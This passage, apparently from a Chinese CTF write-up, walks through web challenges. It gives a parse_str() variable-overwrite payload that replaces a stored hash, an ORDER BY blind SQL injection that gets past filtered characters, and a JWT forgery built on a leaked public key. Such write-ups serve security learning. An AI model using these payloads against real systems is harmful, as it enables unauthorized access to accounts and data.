 审计发现，我们必须提供两个参数action和key，并且使用sha256进行哈希处理后必须等于代码顶部的哈希值。<br>
首先试一下解密hashed_key的值，但是很不幸并没有解密出来。<br>
但是我们看到出现parse_str()函数，变量覆盖的典型代表函数，所以我恶魔你直接变量覆盖掉hashed_key<br>
使用大神的脚本跑出hash的值为9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08<br>
构造payload：

```
action=auth&amp;key=test&amp;hashed_key=9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08
```

### <a class="reference-link" name="5.%20web5"></a>5. web5

提示 看来你并不是Union.373组织成员，请勿入内！<br>
改u-a头<br>
后：请输入用户名<br>
注入，过滤了圆括号，注释符，from等等<br>
payload ：order by 排序盲注<br>[![](https://p5.ssl.qhimg.com/t01d0009a6ed1ebc657.png)](https://p5.ssl.qhimg.com/t01d0009a6ed1ebc657.png)

### <a class="reference-link" name="6.web6"></a>6.web6

这是一个构造jwt头攻击的题目。<br>
进入题目后查看源代码，在common.js文件里找到关键信息：

```
function getpubkey()
`{`
    /* 
    get the pubkey for test
    /pubkey/`{`md5(username+password)`}`
    */
`}`
```

很明显是个公钥获取提示，将自己注册的用户名和密码合在一起取md5值,以此访问公钥文件。<br>
拿到公钥

```
`{`"pubkey":"-----BEGIN PUBLIC KEY-----nMIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDMRTzM9ujkHmh42aXG0aHZk/PKnomh6laVF+c3+D+klIjXglj7+/wxnztnhyOZpYxdtk7FfpHa3Xh4Pkpd5VivwOu1hnKk3XQYZeMHov4kW0yuS+5RpFV1Q2gm/NWGY52EaQmpCNFQbGNigZhu95R2OoMtucnIC+LX+9V/mpyKe9R3wIDAQABn-----END PUBLIC KEY-----","result":true`}`
```

但很明显，公钥是有格式的，直接拿来用坑定不行，用python的print命令输出一下，防止人工修格式修错,然后将其复制到txt里

```
a="-----BEGIN PUBLIC KEY-----nMIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDMRTzM9ujkHmh42aXG0aHZk/PKnomh6laVF+c3+D+klIjXglj7+/wxnztnhyOZpYxdtk7FfpHa3Xh4Pkpd5VivwOu1hnKk3XQYZeMHov4kW0yuS+5RpFV1Q2gm/NWGY52EaQmpCNFQbGNigZhu95R2OoMtucnIC+LX+9V/mpyKe9R3wIDAQABn-----END PUBLIC KEY-----"
print a
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0122f58656c4c1ac94.png)<br>
用这个公钥构造token头访问list
